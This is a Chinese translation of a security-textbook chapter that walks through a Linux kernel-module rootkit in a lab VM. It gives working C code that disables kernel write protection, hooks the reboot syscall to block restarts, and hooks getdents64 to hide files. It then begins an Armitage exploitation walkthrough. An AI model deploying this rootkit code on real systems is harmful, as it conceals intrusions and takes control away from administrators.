










## 第十二章：**构建和安装 Linux Rootkit**

*技术无关紧要。重要的是你对人类的信任，相信他们本质上是善良和聪明的，如果你给他们工具，他们会用这些工具做出奇妙的事情。*

–史蒂夫·乔布斯


一旦黑客获取了对一台机器的访问，他们通常希望保持隐匿。一种方法是安装 *rootkit*。Rootkit 用攻击者的代码替换操作系统的部分功能，这有点像在监控摄像头上粘上一张房间的照片。例如，rootkit 可能会将列出所有文件的操作系统功能替换为列出所有文件，除了黑客创建的文件。因此，当防病毒工具试图通过读取文件系统来搜索恶意文件时，它不会发现任何可疑的东西。

在本章中，你将通过编写一个 Linux 内核模块来修改 Kali Linux 机器上的内核，Linux 内核模块是一个操作系统扩展，可用于创建 rootkit。然后你将使用一种叫做 *钩子* 的技术来覆盖操作系统的功能。我们将使用这种钩子技术编写一个 rootkit，它可以阻止系统重启并隐藏恶意文件。最后，我们将使用一个叫做 Armitage 的 Metasploit 图形用户界面 (GUI) 扫描机器，利用漏洞并安装一个 rootkit。

### 编写一个 Linux 内核模块

攻击者创建 rootkit 的常见方法是通过利用 Linux 操作系统的一个功能，叫做 *内核模块*。这个功能允许用户在不重新编译或重启操作系统的情况下扩展操作系统。例如，当你将网络摄像头连接到系统时，摄像头的安装程序会将一个叫做 *驱动程序* 的软件添加到内核中。这个驱动程序使内核能够与新硬件进行交互。能够直接在内核中插入和运行代码使得内核模块成为开发 rootkit 的理想选择，rootkit 在集成到内核中时效果最佳。

在本节中，你将通过自己编写并在 Kali Linux 虚拟机上运行一个内核模块，了解 Linux 内核模块是如何工作的。你将创建的模块将在你添加或删除时记录一条信息。

#### *备份你的 Kali Linux 虚拟机*

你在内核模块中所犯的任何编码错误都可能导致内核崩溃，所以首先创建 Kali Linux 虚拟机的备份快照，以便在崩溃时可以恢复它。图 11-1 提供了如何执行此操作的说明。



*图 11-1：如何创建快照*

从你的虚拟机列表中选择 Kali Linux 机器 ➊ 然后点击 **快照**。接着选择 **拍摄** ➋。给你的快照命名 ➌ 然后点击 **确定** ➍。

#### *编写代码*

这个内核模块代码与我们在本书中讨论的其他程序有所不同。首先，我们将使用 C 语言编写第一个内核模块，而不是使用 Python。这是因为 Linux 内核是用 C 语言编写的，所以内核模块也必须用 C 语言编写。其次，我们无法使用标准 C 库（例如`unistd`、`stdio`和`stdlib`），因为在内核模式下没有用户空间库可用。（我将在本章的“系统调用”部分讨论这两种模式。）

你编写的多数程序和内核模块之间的另一个区别是，内核模块是事件驱动的。这意味着程序不是按顺序执行的，而是响应事件（例如鼠标点击或键盘中断）来执行。内核模块运行在特权状态下，这意味着它们可以访问并更改系统中的任何内容。

每个内核模块必须响应两个事件：`module_init()`和`module_exit()`。`module_init()`事件在你将模块添加到内核时发生，`module_exit()`事件在你从内核中移除模块时发生。

首先，创建一个名为*lkm_rootkit*的桌面文件夹，并通过运行以下命令创建两个空文件，*hello.c*和*Makefile*：

```
kali@kali:~/Desktop/lkm_rootkit$ touch hello.c Makefile
```

接下来，将以下内容复制到*hello.c*中：

```
   #include <linux/module.h>

   #include <linux/kernel.h>
➊ static int startup(void){

    ➋ printk(➌ KERN_NOTICE  "Hello, Kernel Reporting for Duty!\n");

       return 0;

   }
➍ static void shutdown(void){

      printk(KERN_NOTICE "Bye bye!\n");

   }
➎ module_init(startup);
➏ module_exit(shutdown);

   MODULE_LICENSE("GPL");
```

请注意，这个程序中没有`main`方法。相反，我们定义了一个在响应`module_int`事件时运行的函数 ➊，该函数调用`printk()`函数 ➋。与传统的用户级`printf()`方法不同，后者是输出到控制台（记住，在内核模式下我们没有控制台），`printk()`方法将日志记录下来。每条日志条目都与一个日志级别标志相关联（例如，`KERN_NOTICE` ➌）。表 11-1 列出了各种标志及其相关含义。接下来，我们定义了一个在触发`module_exit`事件时执行的函数 ➍。最后，我们分别通过`module_init` ➎和`module_exit` ➏事件注册这些函数。这些函数将在内核模块加载和卸载时分别执行。所有 Linux 内核模块都必须包含`MODULE_LICENSE`标签。在本例中，我们使用的是 GNU 通用公共许可证（GPL）。

**表 11-1：** 内核日志标志

| 标志 | 描述 |
| --- | --- |
| `KERN_EMERG` | 紧急条件，系统可能已经崩溃 |
| `KERN_ALERT` | 发生了一些问题，需要立即关注 |
| `KERN_CRIT` | 严重条件 |
| `KERN_ERR` | 发生了错误 |
| `KERN_WARNING` | 警告 |
| `KERN_NOTICE` | 正常信息，值得注意 |
| `KERN_INFO` | 一些信息 |
| `KERN_DEBUG` | 与程序相关的调试信息 |

现在你已经编写了内核模块，接下来我们来编译它。

#### *编译和运行你的内核模块*

你将创建的 Make 文件（*Makefile*）将包含编译器用来构建内核模块的指令。在你喜欢的文本编辑器中打开*Makefile*，复制以下内容，然后保存文件：

```
➊ obj-m += hello.o

   all:

   ➋ make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

   clean:

      make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

第一个命令➊告诉内核的构建系统将文件(*hello.c*)编译成目标文件(*hello.o*)。这个构建系统将目标文件传递给编译器管道中的软件，即*链接器*，它填充模块引用的其他库的地址。一旦链接过程完成，链接器会生成最终的内核模块文件*hello.ko*。Make 文件要求内核构建系统构建当前目录下的所有模块➋。

确保你已经安装了 Linux 头文件：

```
kali@kali:~/Desktop/lkm_rootkit$ sudo apt install linux-headers-$(uname -r)
```

然后，在*lkm_rootkit*目录中运行`make`命令以启动构建过程：

```
kali@kali:~/Desktop/lkm_rootkit$ make
make -C /lib/modules/5.4.0-kali4-amd64/build M=/home/kali/lkm_rootkit modules
make[1]: Entering directory '/usr/src/linux-headers-5.4.0-kali4-amd64'

  CC [M]  /home/kali/lkm_rootkit/hello.o

  Building modules, stage 2.

  MODPOST 1 modules

  CC [M]  /home/kali/lkm_rootkit/hello.mod.o

  LD [M]  /home/kali/lkm_rootkit/hello.ko
make[1]: Leaving directory '/usr/src/linux-headers-5.4.0-kali4-amd64'
```

接下来，运行以下命令将 Linux 内核模块插入到内核中：

```
kali@kali:~/Desktop/lkm_rootkit$ sudo insmod hello.ko
```

每次将模块插入内核时，Linux 操作系统都会调用`__init`函数。该模块使用`printk()`函数将消息`Hello, Kernel Reporting for Duty!`写入内核日志*/var/log/syslog*和*/var/log/kern.log*。内核还将这些消息包含在*内核环形缓冲区*中，这是一种环形队列，内核将生成的消息插入其中。运行`**dmesg**`命令查看这些消息：

```
kali@kali:~/Desktop/lkm_rootkit$ sudo dmesg

[    0.000000] Linux version 5.7.0-kali1-amd64 (devel@kali.org) (gcc version

			 9.3.0 (Debian 9.3.0-14), GNU ld (GNU Binutils for Debian) 2.34) #1 SMP

			 Debian 5.7.6-1kali2

[    0.000000] Command line: BOOT_IMAGE=/boot/vmlinuz-5.7.0-kali1-amd64 root=

			 UUID=b1ce2f1a-ef90-47cd-ac50-0556d1ef12e1 ro quiet splash

[    0.000000] x86/fpu: x87 FPU will use FXSAVE

[    0.000000] BIOS-provided physical RAM map:

...
```

如你所见，内核环形缓冲区包含大量的调试信息。使用`grep`命令过滤结果：

```
kali@kali:~/Desktop/lkm_rootkit$ sudo dmesg | grep 'Hello'

[ 2396.487566] Hello, Kernel Reporting for Duty!
```

你还可以使用`tail`命令查看内核记录的最后几条消息：

```
kali@kali:~/Desktop/lkm_rootkit$ sudo dmesg | tail
```

使用`**lsmod**`命令查看所有已加载的内核模块列表：

```
 kali@kali:~/Desktop/lkm_rootkit$ sudo lsmod

   Module                  Size  Used by
➊ hello                  16384  0

   fuse                  139264  5

   rfkill                 28672  2

   vboxsf                 94208  0

   joydev                 28672  0

   snd_intel8x0           49152  2

   snd_ac97_codec        155648  1 snd_intel8x0
```

你应该能找到你刚刚安装的模块➊。现在，你已经成功地通过内核模块将代码直接插入到内核中！这意味着你现在可以修改内核，使你的内核模块离根套件更近一步。你可能会想：系统管理员难道不会通过列出我们刚才做过的内核模块来发现我的根套件吗？嗯，是的，但稍后在本章中我会讨论如何让我们的模块不出现在这个列表中。

使用`rmmod`命令删除你的 Linux 内核模块：

```
kali@kali:~/Desktop/lkm_rootkit$ sudo rmmod hello
```

当你删除内核模块时，操作系统将调用`__exit`函数，模块将记录`Bye bye!`消息。

**注意**

*在实现你的模块时必须小心。编码错误可能会导致模块崩溃，并且将很难删除该模块。如果发生这种情况，请重启你的虚拟机。*

你可以在*[`tldp.org/LDP/lkmpg/2.6/html/lkmpg.html`](https://tldp.org/LDP/lkmpg/2.6/html/lkmpg.html)*中找到有关构建 Linux 内核模块的更多详细信息。

### 修改系统调用

在本节中，我们将讨论如何利用内核模块创建根套件。特别是，你将学习如何使用它们挂钩系统调用。但在此之前，我必须讨论一下什么是系统调用。

#### *系统调用是如何工作的*

为了防止恶意程序直接修改内核，计算机的处理器将内存划分为两个区域：*用户空间*和*内核空间*。

当用户程序运行时，它使用的是内存中的用户空间区域。相比之下，只有在处理器处于特权模式时，才能访问内核空间内存。切换到特权模式需要特殊的权限或特权级别，这些权限存储在一个名为*代码段（CS）寄存器*的特殊寄存器的最后两位中。每当处理器从保护内存中取出数据时，它会检查 CS 寄存器。

英特尔处理器有四个特权级别：3、2、1 和 0。特权级别 3 由用户程序使用，特权级别 2 和 1 由设备驱动程序使用，而特权级别 0 则由内核使用。然而，在实践中，现代系统只使用级别 0（内核模式）和级别 3（用户模式）。只有当 CS 寄存器的特权级别允许时，处理器才会获取内存区域。图 11-2 展示了 CS 寄存器如何管理对受保护内存区域的访问，并帮助执行内核空间/用户空间的分隔。



*图 11-2：内核空间与用户空间及代码段（CS）寄存器对比*

读取文件或访问网络等活动被视为特权操作，因此与这些活动相关的代码存储在内核空间中。但你可能会好奇，像浏览器这样的用户级程序是如何访问网络的。

处理器提供了一条名为*系统调用（syscall）*的特殊指令。这条指令将控制权转交给内核，内核随后运行适当的函数。为了理解程序是如何激活这些系统调用之一的，可以参考以下程序，该程序打开一个文件，写入值 7，然后关闭文件：

```
#include <stdio.h>

#include <stdlib.h>

int main(){

   FILE *fptr = fopen("/tmp/file.txt","w");

   fprintf(fptr,"%d",7);

   fclose(fptr);

   return 0;

}
```

`open`、`write`和`close`这三种操作都是特权操作，因此它们必须调用系统调用。为了查看这些调用的实际情况，我们来看一段与`fclose()`函数相关的汇编代码片段：

```
   <__close>:

   ...
➊ mov $0x03,%eax
➋ syscall
➌ cmp $0xfffffffffffff001,%rax

   ...
➍ retq
```

程序在使用系统调用指令时必须遵循以下步骤。在第一步 ➊，编译器将系统调用号移动到`%eax` CPU 寄存器中。在这种情况下，值 3 表示`close`系统调用。在第二步中，处理器执行`syscall`指令 ➋，并将控制权转交给内核。内核将使用存储在`%eax`寄存器中的号码来索引*系统调用表*，这是内核内存中的一个数组，存储着指向内核函数的指针。图 11-3 展示了系统调用表的示意图。



*图 11-3：内存中系统调用表的可视化展示*

当与系统调用关联的函数完成时，它会将返回值放入`%rax`寄存器，并将控制权交还给用户程序。在第三步 ➌ 中，用户程序检查`%rax`中的值。这个值告诉用户程序内核函数是否返回了错误。错误由值 -1 指示。如果没有错误发生，函数完成并返回 ➍。

要查看系统调用及其对应的系统调用编号，请查看你系统中的*unistd_64.h*或*unistd_32.h*文件。使用`**find**`命令搜索文件的根目录（`/`），并使用`**-iname**`选项执行不区分大小写的搜索：

```
   kali@kali:~/Desktop/lkm_rootkit$ sudo find / -iname unistd_64.h

   /usr/src/linux-headers-5.7.0-kali1-common/arch/sh/include/uapi/asm/unistd_64.h

   /usr/src/linux-headers-5.7.0-kali1-amd64/arch/x86/include/generated/uapi/asm/

			 unistd_64.h
➊ /usr/include/x86_64-linux-gnu/asm/unistd_64.h
```

选择最后一个选项 ➊，这是 GNU 编译器使用的库，并使用`**cat**`命令列出文件内容：

```
   kali@kali:~/Desktop/lkm_rootkit$ cat /usr/include/x86_64-linux-gnu/asm/

			 unistd_64.h
   #ifndef _ASM_X86_UNISTD_64_H

   #define _ASM_X86_UNISTD_64_H 1

   #define __NR_read 0

   #define __NR_write 1

   #define __NR_open 2
➊ #define __NR_close 3

   #define __NR_stat 4

   ...
```

请注意，这个文件定义了几个常量，这些常量存储了系统调用编号。例如，`__NR_close`常量 ➊ 存储系统调用编号`3`。这些常量使我们能够编写更具可读性的程序。我们可以使用预定义的常量`sys_call_table[__NR_close]`，而不是使用任意的整数来索引系统调用数组（例如，通过编写`sys_call_table[3]`）。

#### *钩取系统调用*

现在我们已经讨论了系统调用及其工作原理，让我们讨论一下如何设计一个钩取系统调用的 rootkit。*钩取*是将系统调用表中的某个条目重写为指向攻击者函数的新指针的过程。图 11-4 展示了钩取`read`系统调用的视觉示例。



*图 11-4：钩取过程概述*

内核模块将系统调用表中的`read`条目替换为指向黑客`read`函数的指针。由于你的内核模块是内核的一部分，它可以访问内核的所有内存和变量。这意味着它可以访问内核的系统调用表，系统调用表仅是内存中的一个数组。因为你的内核模块可以读写内存，它也可以修改此表中的条目或你选择的任何其他内核部分。

通常，攻击者可以选择性地从他们的新`read`函数中调用原始的`read`函数，而不是重新实现整个`read`函数。这样做允许他们选择性地响应读取操作。例如，他们可能选择修改一些读取操作，同时允许其他操作正常工作。或者，他们可能阻止对秘密文件的读取，同时允许其他读取操作正常进行。

### 钩取关机系统调用

让我们编写一个内核模块，防止用户执行基于软件的系统重启。我们将通过修改你之前编写的内核模块（*hello.c*）来钩取`__NR_reboot`系统调用。

让我们开始找到内存中系统调用表的地址。通常可以使用内核的 `kallsyms_lookup_name` 函数获取此地址；然而，根据内核版本不同，定位系统调用表的技术也会有所不同。这里我讨论的方法是在运行于虚拟机中的 Linux 内核版本 5.7 上测试过的。

将以下 C 代码复制到你的 *hello.c* 模块的 `#include` 语句下方：

```
unsigned long *sys_call_table_address = kallsyms_lookup_name("sys_call_table");
```

一旦我们有了系统调用表的地址，就可以修改它的条目。然而，系统调用表可能存储在只允许读取的写保护内存位置。处理器只会在 `WP`（写保护）标志为 0（假）时写入这些页面，因此我们也必须修改此标志。

写保护标志存储在 Intel x86_64 处理器的 32 位控制寄存器（cr0）的第 17 位。Linux 内核实现了一个名为 `write_cr0` 的函数，该函数将一个值写入 cr0 寄存器。我们将编写一个名为 `my_write_cr0` 的函数，该函数明确执行汇编指令以设置 cr0 寄存器，而不使用预定义的 Linux 函数，其功能因运行在虚拟环境中而异。

```
static long my_write_cr0(long value) {

    __asm__ volatile("mov %0, %%cr0" :: "r"(value) : "memory");

}
```

现在我们可以通过按位 AND 运算（`&`）寄存器与 `0x10000` 的取反（`~`）来禁用 `WP` 标志。这样可以将标志的当前值设置为 0：

```
#define disable_write_protection() my_write_cr0(read_cr0() & (~0x10000);
```

然后我们可以通过计算寄存器与值 `0x10000` 之间的按位 OR 来重新启用写保护；这样可以将位设置回 1：

```
#define enable_write_protection()({my_write_cr0(read_cr0() | (0x10000));})
```

现在让我们编写一个 C 函数，使我们的内核模块能够钩住系统调用表：

```
static void hook_reboot_sys_call(void *new_function){

 ➊ old_reboot_sys_call = sys_call_table_address[__NR_reboot];

    disable_write_protection();

 ➋ sys_call_table_address[__NR_reboot] = (unsigned long)new_function;

    enable_write_protection();

}
```

首先，我们保存了旧的重启系统调用 ➊ 的副本。在卸载模块后，我们需要这样做，因为我们希望在移除模块时系统能够正常运行。接下来，我们通过调用刚刚编写的函数禁用写保护，并更新系统调用表中的 `__NR_reboot` 条目 ➋，指向我们将在以下代码片段中定义的新重启函数。最后，我们将重新启用写保护。

现在让我们把这一切整合到一个单独的文件中。将以下内容复制到名为 *reboot_blocker.c* 的新文件中，并保存到 *lkm_rootkit* 文件夹中：

```
  #include <linux/module.h>

  #include <linux/init.h>

  #include <linux/kernel.h>

  #include <linux/kprobes.h>

  #include <linux/syscalls.h>

  // Manually set the write bit

  static void my_write_cr0(long value) {

      __asm__ volatile("mov %0, %%cr0" :: "r"(value) : "memory");

  }

  #define disable_write_protection() my_write_cr0(read_cr0() & (~0x10000))

  #define enable_write_protection() my_write_cr0(read_cr0() | (0x10000))

  #define enable_reboot 0

  unsigned long *sys_call_table_address;

  asmlinkage int (*old_reboot_sys_call)(int, int, int, void*);

  static struct kprobe kp = {

      .symbol_name = "kallsyms_lookup_name"

  };

  typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);

  unsigned long * get_system_call_table_address(void){

      kallsyms_lookup_name_t kallsyms_lookup_name;

      register_kprobe(&kp);

      kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;

      unregister_kprobe(&kp);

  unsigned long *address = (unsigned long*)kallsyms_lookup_name("sys_call_table");

      return address;

  }

  asmlinkage int hackers_reboot(int magic1, int magic2, int cmd, void *arg){

      if(enable_reboot){

         return old_reboot_sys_call(magic1, magic2, cmd, arg);

      }

      printk(KERN_NOTICE "EHROOTKIT: Blocked reboot Call");

      return EPERM;

  }

➊ void hook_sys_call(void){

      old_reboot_sys_call = sys_call_table_address[__NR_reboot];

      disable_write_protection();

      sys_call_table_address[__NR_reboot] = (unsigned long) hackers_reboot;

      enable_write_protection();

      printk(KERN_NOTICE "EHROOTKIT: Hooked reboot Call");

  }

➋ void restore_reboot_sys_call(void){

      disable_write_protection();

      sys_call_table_address[__NR_reboot] = (unsigned long) old_reboot_sys_call;

      enable_write_protection();

  }

  static int startup(void){

      sys_call_table_address = get_system_call_table_address();

      hook_sys_call();

      return 0;

  }

  static void __exit shutdown(void){

     restore_reboot_sys_call();

  }

  module_init(startup);

  module_exit(shutdown);

  MODULE_LICENSE("GPL");
```

除了钩子函数 ➊ 外，我们还包括一个函数来将系统调用入口恢复到其原始值 ➋。在移除模块时将调用此函数。我们还定义了 `hackers_reboot()` 函数，该函数将替换系统调用表中的重启函数。此函数与内核的原始重启函数具有相同的参数。

或许你在想 `magic1` 和 `magic2` 参数代表什么。因为 Linux 是开源的，我们可以在 *reboot.c* 文件中查看系统调用的源代码。我在这里包含了代码片段：

```
SYSCALL_DEFINE4(reboot, int, magic1, int, magic2, unsigned int, cmd,

      void __user *, arg)

{

...

   /* We only trust the superuser with rebooting the system. */

   if (!ns_capable(pid_ns->user_ns, CAP_SYS_BOOT))

      return -EPERM;

   /* For safety, we require "magic" arguments. */

 ➊ if (magic1 != LINUX_REBOOT_MAGIC1 ||

         (magic2 != LINUX_REBOOT_MAGIC2 && ➋ 

         magic2 != LINUX_REBOOT_MAGIC2A &&

...
```

额外的检查➊减少了内存损坏错误导致机器自发重启的可能性。因为内存损坏需要同时影响系统调用表和所有常量➋，这种错误才会发生。那么 Linux 的开发者 Linus Torvalds 为这些常量选择了什么值呢？来看一下：

```
LINUX_REBOOT_MAGIC1  4276215469  = 0xfee1dead
LINUX_REBOOT_MAGIC2  672274793   = 0x28121969 (Linus Birthday)
LINUX_REBOOT_MAGIC2A 85072278    = 0x05121996 (Birthday Kid 1)
LINUX_REBOOT_MAGIC2B 369367448   = 0x16041998 (Birthday Kid 2)
LINUX_REBOOT_MAGIC2C 537993216   = 0x20112000 (Birthday Kid 3)
```

托瓦尔兹选择了自己的生日以及他三个孩子的生日。这些常量会被检查，以确保内存损坏没有导致关机：这是一个绝妙的 Linux 彩蛋。每次你关闭 Linux 机器时，请记住，你需要一点魔法。

回到我们的代码中，`cmd`参数指定了命令快捷键 CTRL-ALT-DELETE 来触发关机。最后一个参数是指向用户的指针。Linux 内核使用该值来确保用户具有正确的权限来关闭机器。

你还会注意到函数签名中包括了`asmlinkage`宏。这个宏告诉编译器检查栈（程序内存的一个区域，用于临时存储变量），而不是寄存器，来获取函数的参数。这是因为`syscall`指令将这些参数放置在栈上。

我们定义了一个常量`enable_reboot`。将此常量设置为 1 允许系统重启，但将其设置为 0 会阻止重启调用并返回`EPERM`常量。这个常量表示用户没有足够的权限进行重启，因为现在我们已经控制了系统。

现在是时候编译内核模块了。编辑*Makefile*中的第一行，使其指向*reboot_blocker.c*文件：

```
obj-m += reboot_blocker.o
```

现在安装内核模块：

```
kali@kali:~/Desktop/lkm_rootkit$ sudo insmod reboot_blocker.ko
```

检查日志以确保内核模块已安装：

```
kali@kali:~/Desktop/lkm_rootkit$ sudo dmesg | grep 'EHROOTKIT'
```

要测试它，可以通过在终端运行以下命令来进行基于软件的重启 Kali Linux 系统：

```
kali@kali:~/Desktop/lkm_rootkit$ sudo reboot
```

这应该会导致你的 Kali Linux 机器的 GUI 关闭并返回到 Kali 的 logo。然而，内核并未关闭，仍然可以被检测到。在 pfSense 中，ping 你的 Kali Linux 机器：

```
kali@kali:~/Desktop/lkm_rootkit$ ping <Kali IP address>
```

如果你正确安装了模块，你会注意到 Kali Linux 内核仍然会响应 ping，这表明它仍然在运行。当这个模块运行时，受害者必须按下电源开关或拔掉机器的电源才能完全关闭它。

### 隐藏文件

Rootkit 也可以通过挂钩“获取目录条目”系统调用（`__NR_getdents64`）来隐藏文件，这会运行`getdents()`内核函数：

```
long getdents64(

                  unsigned int fd,

                  struct linux_dirent64 *dirp,

                  unsigned int count

             );
```

如你所见，`getdents()`函数接收三个参数作为输入。第一个参数是通过`open`系统调用返回的文件 ID，它是一个唯一标识文件或目录的整数。第二个参数是指向 Linux 目录条目的数组（`linux_dirent`）的指针。第三个参数是该数组中条目的数量。

#### *linux_dirent 结构体*

让我们来看一下`linux_dirent`数组中条目的结构。这些条目很重要，因为它们是文件资源管理器中显示的内容，或者每当你运行`ls`命令时会看到的内容。将一个条目从这个列表中移除，会将其从所有使用`dirent64`系统调用来显示文件的程序中移除：

```
struct linux_dirent64 {

            ino64_t        d_ino;

            off64_t        d_off;

            unsigned short d_reclen;

            unsigned char  d_type;

            char           d_name[];

        };
```

`d_ino`字段是一个 8 字节的字段，包含一个唯一的数字，标识与文件关联的*inode*。Inode 是 Linux 文件系统用来存储文件元数据（如文件大小和时间戳）的数据结构。Inode 还包含指向文件存储在内存中的位置的指针。第二个字段是 8 字节的文件偏移量，指定从当前位置到数组中下一个条目的字节数。接下来的字段`d_reclen`表示条目的总长度。1 字节的`d_type`字段用于区分条目的类型，因为文件和目录都是`linux_dirent`数组中的有效条目。最后一个字段`d_name[]`包含文件或目录的名称。

#### *编写钩子代码*

钩住与`getdents64()`函数相关的系统调用可以让我们在调用该系统调用时运行我们的恶意函数。我们的函数将调用原始的`getdents64()`函数；然而，在返回调用之前，我们会从 Linux 目录条目的数组中移除包含我们恶意文件名称的条目。更具体地说，任何以`eh_hacker_`为前缀的条目将被移除，这样看起来就像这些条目从未存在过。

为了可视化我们需要做的工作，查看图 11-5，它展示了我们将如何修改包含目录项的数组。在这个例子中，阴影部分的条目是一个包含`eh_hacker_`前缀的文件。



*图 11-5：目录项数组如何被修改*

一旦我们发现一个以`eh_hacker_`为前缀的文件，我们将其从数组中移除，通过将后续的值向上移动来覆盖它。在这个例子中，我们通过将 4 和 5 向上移动到 2 旁边来覆盖 3。最后，我们将数组的长度从 5 更新为 4。以下代码实现了恶意的`hacker_getdents64()`函数：

```
#define PREFIX "eh_hacker_"

#define PREFIX_LEN 10
asmlinkage hacker_getdents64( unsigned int fd, struct linux_dirent64 *dirp,

			 unsigned int count){
➊ int num_bytes = old_getdents64(fd,dirp, count);

   struct linux_dirent64* entry = NULL;

   int offset = 0;
➋ while( offset < num_bytes){

       unsigned long entry_addr = drip + offset;

       entry = (struct linux_dirent*) entry_addr;

    ➌ if (strncmp(entry->d_name, PREFIX, PREFIX_LEN) != 0){

               offset += entry->d_reclen;

        }else{

          ➍ size_t bytes_remaining = num_bytes - (offset + entry->d_reclen);

             memcpy(entry_addr, entry_addr + entry->d_reclen, bytes_remaining);

             num_bytes -= entry->d_reclen;

             count -= 1;

        }

    }

    return num_bytes;

}
```

我们调用内核的原始 `getdent64()` 函数 ➊，它会更新指针，使其指向 Linux 目录项数组，并设置计数为目录项的数量。它还会返回数组的字节数。接下来，我们遍历所有目录项 ➋，并递增偏移量，直到到达字节数组的最后一个字节。在每次循环迭代中，我们通过将偏移量的值加到目录项指针（`drip`）来计算目录项的地址。然后，我们将该地址强制转换为指向 `linux_direct` 结构的指针，以便轻松访问其字段。接下来，我们检查文件名项，以查看它是否以我们的前缀（`eh_hacker_`） ➌ 开头。如果不匹配，我们通过将偏移量推进到下一个目录项来跳过它。然而，如果它包含我们的前缀，我们会计算剩余字节数 ➍，然后通过将剩余字节向后滑动来覆盖该项，如 图 11-5 所示。最后，我们递减计数和字节数。

除了隐藏文件之外，复杂的 rootkit（例如 Drovorub 恶意软件中的 rootkit）还会隐藏进程、套接字和数据包。这些活动有助于恶意软件避免被检测到。例如，隐藏数据包可以让 rootkit 在与攻击者的服务器通信时避免被检测。它可以通过挂钩到 Netfilter 组件来隐藏数据包，而 Netfilter 是 Linux 内核的一部分，允许防火墙拦截和过滤数据包。

### 使用 Armitage 对主机进行攻击并安装 Rootkit

现在您已经了解了内核模块基础 rootkit 的工作原理，我们来使用一个名为 *Armitage* 的工具，从头到尾执行一次攻击。我们将从扫描 Metasploitable 虚拟机开始，识别一个漏洞。然后，我们将利用这个漏洞上传一个反向 Shell，并用它来下载并安装 rootkit。

Armitage 是一个简化与 Metasploit 框架交互的 GUI。该软件的商业版叫做 Cobalt Strike，价格大约为 $3,500。幸运的是，Armitage 是免费的，尽管它可能存在一些 Bug。您可以通过运行以下命令来安装它：

```
kali@kali:~$ sudo apt-get install armitage
```

安装完成后，启动 `postgresql` 数据库服务，这是 Metasploit 框架用来存储客户端连接信息的：

```
kali@kali:~$ sudo service postgresql start
```

